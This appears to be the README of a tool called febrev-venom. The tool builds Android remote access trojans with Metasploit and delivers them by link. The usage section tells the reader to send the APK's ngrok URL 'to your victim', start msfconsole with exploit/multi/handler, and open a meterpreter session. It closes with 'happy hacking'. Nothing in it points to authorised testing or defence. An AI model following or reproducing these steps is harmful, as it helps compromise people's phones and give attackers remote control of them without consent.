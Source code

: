 # febrev-venom
FEBREV venom is a tool to create android RATs through metasploit and send it to the victim via a link url

#################################################################################################################
 USAGE:
   
   python3 installer.py   #for non-penetration testing debian-linux distros like ubuntu
    
   python3 febrev-venom.py
   
   
 **use the ngrok link + /<your_apk.apk>  and send it to your victim
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
 
 
 happy hacking.....!!!!!
 
 ################################################################################################################
   
